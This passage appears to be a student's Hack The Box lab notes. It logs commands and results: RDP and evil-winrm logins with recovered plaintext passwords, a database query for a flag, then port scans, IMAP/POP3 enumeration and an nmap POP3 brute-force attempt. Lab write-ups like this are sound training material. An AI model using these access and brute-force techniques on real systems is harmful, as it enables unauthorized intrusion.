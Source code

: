 *Command:* Access RDP with alex user
- xfreerdp /f /v:10.129.202.41 /u:alex /p:'lol123!mD' /workarea

*Result:* No access to database, found user Administrator

---

*Command:* winrm with user administrator and password found in the file important.txt
- evil-winrm -i 10.129.202.41 -u Administrator -p '87N1ns@slls83'
- xfreerdp /f /v:10.129.202.41 /u:Administrator /p:'87N1ns@slls83' +clipboard

*Result:* cmd as administrator

---

*Command:* Access to Database
- Click, click, click, find table accounts, click, click, click, right click view SCHEMA.TABLES
  
*Result:* Found table devacc

---

*Command:* SELECT * FROM accounts.dbo.devsacc where name = 'HTB';

*Result:* Flag

### Assessment 3

*Command:* Port scan
- rustscan -a $TARGET -t 500 -b 1500

*Result:* Found TCP: 22,110,143,993,995

---

*Command:* IMAP/POP3 Capabilities
- nmap -Pn -p110,995 -sV -sC $TARGET --script "pop3-capabilities or pop3-ntlm-info"
- nmap -Pn -p143,993 -sV -sC $TARGET --script imap*
  
*Result:*
- pop3-capabilities: AUTH-RESP-CODE STLS TOP UIDL RESP-CODES SASL(PLAIN) USER 
- pop3-capabilities: SASL(PLAIN) TOP UIDL RESP-CODES USER AUTH-RESP-CODE PIPELINING CAPA
- imap-capabilities: IMAP4rev1 more ID capabilities LITERAL+ IDLE STARTTLS have LOGIN-REFERRALS SASL-IR post-login listed Pre-login OK ENABLE AUTH=PLAINA0001
- imap-capabilities: IMAP4rev1 ID capabilities LITERAL+ IDLE more have AUTH=PLAINA0001 SASL-IR post-login listed Pre-login OK ENABLE LOGIN-REFERRALS
---

*Command:* Pop3 brute force
- nmap -Pn -p110,995 -sV -sC $TARGET --script "pop3-brute"
  
*Result:* No result, either with other wordlists

---

*Command:* UDP scan after hint
- sudo nmap -Pn -sU $TARGET --min-rate 5000

*Result:* 161/udp   open   snmp

---